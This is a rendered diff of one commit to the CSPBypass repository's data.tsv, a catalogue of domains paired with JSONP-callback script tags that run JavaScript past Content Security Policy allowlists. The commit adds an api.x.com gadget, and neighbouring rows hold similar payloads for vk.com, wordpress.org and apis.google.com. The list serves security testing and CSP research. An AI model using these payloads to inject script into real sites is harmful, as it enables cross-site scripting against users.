

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added api.x.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -38,2 +38,3 @@ api.vk.com	<script src="https://api.vk.com/method/wall.get?callback=alert(1337)"
 api.wordpress.org	<script src="https://api.wordpress.org/stats/plugin/1.0/?slug=x&callback=alert"></script>
+api.x.com	<script src="https://api.x.com/1/statuses/oembed.json?url=https:%2F%2Ftwitter.com%2FMartina%2Fstatus%2F867710263654580226&callback=alert&_=1496363308445"></script>
 apis.google.com	<iframe id=x src="/%GG"></iframe><script src="https://apis.google.com/complete/search?client=chrome&q=<script>alert(document.domain)</script>&callback=x.contentDocument.write"></script>
```
